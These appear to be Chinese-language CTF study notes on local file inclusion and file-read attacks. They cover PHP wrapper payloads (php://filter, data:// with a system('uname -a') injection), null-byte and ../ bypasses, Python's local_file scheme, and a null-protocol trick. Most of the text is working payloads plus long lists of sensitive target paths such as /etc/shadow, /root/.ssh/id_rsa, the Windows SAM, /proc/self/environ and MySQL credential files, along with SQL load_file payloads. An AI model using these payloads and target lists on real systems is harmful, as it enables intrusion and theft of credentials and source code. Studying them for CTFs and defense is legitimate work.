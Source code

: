 # include FILE 机制

https://null-flag.yuque.com/wn5dym/glahue/vrvf0t

phpmyadmin 4.8.1任意文件包含

include FILE；的特殊机制

```
include hint.php?./ffffllllaaaagggg
```

# PHP伪协议

https://null-flag.yuque.com/wn5dym/glahue/ngourh

需要使用php伪协议来读源码

`php://filter 协议`  `php://input 协议` 等

```
file=php://filter/read=convert.base64-encode/resource=./flag.php
http://vulnerable/fileincl/example1.php?page=data://text/plain;base64,PD9waHBpbmZvKCk7Lyo=
http://vulnerable/fileincl/example1.php?page=data:;base64,PD9waHBpbmZvKCk7Lyo=   
http://vulnerable/fileincl/example1.php?page=data:text/plain,<?php system("uname -a");?>
```

# filter:base64 | 如果flag在flag.php 中但是不会输出

https://null-flag.yuque.com/wn5dym/glahue/qiry5m

可以使用 php伪协议 `php://filter 协议 ` 读取base64形式的

```
php://filter/convert.base64-encode/resource=flag.php
```

# 在进行目标读取的时候除了 `%00` 还可以尝试 `../`

`%00`截断(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)

在做一道题的时候，必须包含 `meowers`

这样不行：`GET /index.php?category=php://filter/convert.base64-encode/resource=./flag.php%00meowers HTTP/1.1`

这样可以：`GET /index.php?category=php://filter/convert.base64-encode/resource=meowers/../flag HTTP/1.1`

# php://filter 协议中间部分可以随意加东西

```
category=php://filter/convert.base64-encode/aaaindexbbb/resource=flag
```

# Python 支持的协议

`local-file:///etc/passwd`  Python 2.x - 2.7.16 urllib.fopen支持local_file导致LFI(CVE-2019-9948)：https://bugs.python.org/issue35907

可以使用`local_file`:绕过，例如 `local_file:flag.txt`路径就是相对脚本的路径  `local_file://`就必须使用绝对路径(协议一般都是这样)

```
gopher
file
```

# file 协议绕过 | null 协议   httpss://

容错特性：

我先甩出关于容错特性的一个概述：（php的容错特性）当有一个不存在的协议，即无法被成功解析，如hhhm://，将其放入file_get_contents中，会发现其报错，而究其所以是将这个自定义的协议置为null，而php中当协议为null或者file时会进行本地文件读取，也就是说我们可以当做进行本地文件的操作。

本地放一段代码：

```
<?php include($_GET['1']);
```

![img](assets/1647761475428-1761092c-0f86-43f7-a0c8-ba3e35e9adcb.png)

传参:

```
http://127.0.0.1/CTF/index.php?1=httpss://../index.py
```

会发现报了两行错：

![img](assets/1647761497780-f99401ae-da72-4172-9f2e-7da6f5d21946.png)

如上图，尽管报错但是我们包含的页面依旧成功包含了进去，事实上这里就是找不到httpss这个协议，因此把这个协议置为null，然后进行本地文件操作（index.html与当前文件事实上是处于同一个目录的），然后将httpss:这一串当成一个文件夹or文件，因此我们需要进行回退一层然后再读取才能读到处于当前目录下的文件。

同理：

`<?php echo file_get_contents($_GET['1']);` 也可以

- show_source
- highlight_file
- 及其他几个文件读取的函数其实都有这个特性

# 文件读取能做什么事

Linux 系统中，一切都是文件。所以说，文件读取漏洞将能发挥很大作用。

如`../../proc/self/fd/5` 请求发现是 log 日志的文件描述符：

![img](assets/1667825048063-941c7973-bfc5-44bb-90ac-dd7d60e6c1e0.png)



```javascript
- /proc/mounts 文件系统列表
- /proc/cpuinfo CPU信息
- /proc/meminfo 内存信息
- /proc/self -> 指向 /proc/[当前进程pid]
- /proc/[pid]/cmdline 进程启动参数（可以获取一些敏感信息，如redis密码等）（可以跨进程，如pid=1的进程/proc/1/cmdline）
- /proc/[pid]/mountinfo 文件系统挂载的信息（可以看到docker文件映射的一些信息，如果是运行在容器内的进程，通常能找到重要数据的路径：如配置文件、代码、数据文件等）
- /proc/[pid]/exe 指向该进程的可执行文件
/proc/self/environ 环境变量
- /proc/[pid]/fd/[fd] 进程打开的文件（fd是文件描述符id）
- /proc/self/cwd/server.py  // 获取源码 (current working directory)
具体参见：https://man7.org/linux/man-pages/man5/proc.5.html

还有一点要注意的，比如你是用bash来读取/proc/，那么当前进程是bash的进程。这个点通常会有一些人有误区，比如docker启动一个redis的容器，你执行 `docker-compose exec redis cat /proc/self/cmdline` 看到的是cat这个进程执行的参数（其内容是 `cat /proc/self/cmdline`），而不是redis进程执行参数。如果要读取redis进程执行的参数，应该读取pid=1的进程的cmdline：/proc/1/cmdline 。

还有一点忘了说，和docker有关的（但不仅限于docker，比如扩展到supervisord也行得通）。大家知道，文件描述符0是标准输入、1是标准输出、2是标准错误，docker打开的web进程很可能是会将浏览记录和错误记录都输出在1里），甚至包括一些敏感信息（比如启动进程的时候输出一下配置信息什么的）。这时候多读取一下/proc/self/fd/1会有一些不一样的发现。
Windows：
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Windows\php.ini //php配置信息
C:\Windows\my.ini //Mysql配置信息
C:\Windows\win.ini //Windows系统的一个基本系统配置文件
c:\windows\system32\inetsrv\MetaBase.xml 查看IIS的虚拟主机配置
c:\windows\repair\sam //存储了WINDOWS系统初次安装的密码
c:\Program Files\RhinoSoft.com\ServUDaemon.exe
C:\Program Files\mysql\my.ini //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
c:\Program Files\Serv-U\ServUDaemon.ini
c:\Program Files\ Serv-U\ServUAdmin.exe //6.0版本以前的serv-u管理员密码存储于此
c:\Program Files\Apache Group\Apache\conf\httpd.conf 或C:\apache\conf\httpd.conf //查看WINDOWS系统apache文件
c:\mysql\data\mysql\user.MYD //存储了mysql.user表中的数据库连接密码
c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini //存储了虚拟主机网站路径和密码
c:/Resin-3.0.14/conf/resin.conf //查看jsp开发的网站 resin文件配置信息.
c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机
d:\APACHE\Apache2\conf\httpd.conf
C:\mysql\data\mysql\user.MYD 存在MYSQL系统中的用户密码

Linux：
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts //记录每个访问计算机用户的公钥
/root/.bash_history //用户历史命令记录文件
/root/.mysql_history //mysql历史命令记录文件
/etc/passwd
/etc/shadow
/etc/my.cnf //mysql配置文件
/etc/httpd/conf/httpd.conf //apache配置文件
/etc/sysconfig/iptables //从中得到防火墙规则策略
/etc/httpd/conf/httpd.conf // apache配置文件
/etc/rsyncd.conf //同步程序配置文件
/etc/my.cnf //mysql的配置文件
/etc/redhat-release //系统版本
/etc/issue
/etc/issue.net
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf 查看linux APACHE虚拟主机配置文件
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf 查看linux APACHE虚拟主机配置文件
/etc/sysconfig/iptables 查看防火墙策略
/proc/mounts //记录系统挂载设备
/proc/config.gz //内核配置文件
/proc/self/cmdline //当前进程的cmdline参数
/var/lib/mlocate/mlocate.db //全文件路径
LUNIX/UNIX 下:
/usr/local/app/apache2/conf/httpd.conf //apache2缺省配置文件
/usr/local/apache2/conf/httpd.conf
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
/usr/local/app/php5/lib/php.ini //PHP相关设置
/usr/local/app/php5/lib/php.ini //PHP相关设置
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看
/usr/local/resin-pro-3.0.22/conf/resin.conf 同上
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看
/usr/local/resin-pro-3.0.22/conf/resin.conf 同上
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
load_file(char(47)) 可以列出FreeBSD,Sunos系统根目录
replace(load_file(0×2F6574632F706173737764),0×3c,0×20)
replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))
```



# 读取 pyc 文件

如果程序设置不能读取 .py 文件，这里自然会想到 .pyc 文件，.pyc 是 python 的字节码文件，python3.5.2 的字节码文件在`__pycache__/*.cpython-35.pyc`中。然后看一下 Django 的文件结构：

其中，Django 的逻辑代码全部在 views.py 里，数据库模型在 models.py 里。那么，下载这两个文件的字节码文件即可：

![img](assets/1667825195305-88036110-d245-4748-b101-e94c244b92f3.png)

在 burp 里选中那一大段二进制内容，右键 save to file 即可保存到文件。

使用 https://github.com/rocky/python-uncompyle6 可以反编译python3的字节码文件，得到如下结果：